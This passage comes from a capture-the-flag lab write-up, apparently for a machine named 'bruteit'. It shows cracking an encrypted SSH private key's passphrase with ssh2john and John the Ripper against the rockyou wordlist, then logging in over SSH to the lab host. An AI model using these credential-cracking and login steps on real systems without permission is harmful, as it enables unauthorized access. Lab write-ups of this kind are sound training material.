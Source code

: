   ```
  ```
  
- Nice, we have full credentials now! After logging in you'll find the `web flag` and RSA key for SSH login. Save the RSA key, convert it to hash and crack it with John so you can get a passphrase.

  ```
  -----BEGIN RSA PRIVATE KEY-----
  Proc-Type: 4,ENCRYPTED
  DEK-Info: AES-128-CBC,E32C44CDC29375458A02E94F94B280EA
  
  [SNIP!]
  -----END RSA PRIVATE KEY-----
  ```

  ```
  ssh2john id_rsa > john.hash

  john --wordlist=/home/mauzware/Desktop/rockyou.txt john.hash                    
  Using default input encoding: UTF-8
  Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
  Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
  Cost 2 (iteration count) is 1 for all loaded hashes
  Will run 2 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  rockinroll       (id_rsa)     
  1g 0:00:00:00 DONE (2025-05-08 16:16) 25.00g/s 1815Kp/s 1815Kc/s 1815KC/s rubicon..rock14
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed.
  ```
  
- Now just login with found username, id_rsa key and passphrase. Don't foget to change permission of id_rsa to 600.

  ```
  chmod 600 id_rsa
  
  ssh -i id_rsa john@10.10.141.37
  The authenticity of host '10.10.141.37 (10.10.141.37)' can't be established.
  ED25519 key fingerprint is SHA256:kuN3XXc+oPQAtiO0Gaw6lCV2oGx+hdAnqsj/7yfrGnM.
  This key is not known by any other names.
  Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
  Warning: Permanently added '10.10.141.37' (ED25519) to the list of known hosts.
  Enter passphrase for key 'id_rsa': 
  Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)
  
   * Documentation:  https://help.ubuntu.com
   * Management:     https://landscape.canonical.com
   * Support:        https://ubuntu.com/advantage
  
    System information as of Thu May  8 15:17:35 UTC 2025
  
    System load:  0.0                Processes:           114
    Usage of /:   25.8% of 19.56GB   Users logged in:     0
    Memory usage: 61%                IP address for eth0: 10.10.141.37
    Swap usage:   0%
  
  
  63 packages can be updated.
  0 updates are security updates.
  
  
  Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
  
  john@bruteit:~$ whoami
  john
  john@bruteit:~$ id
  ```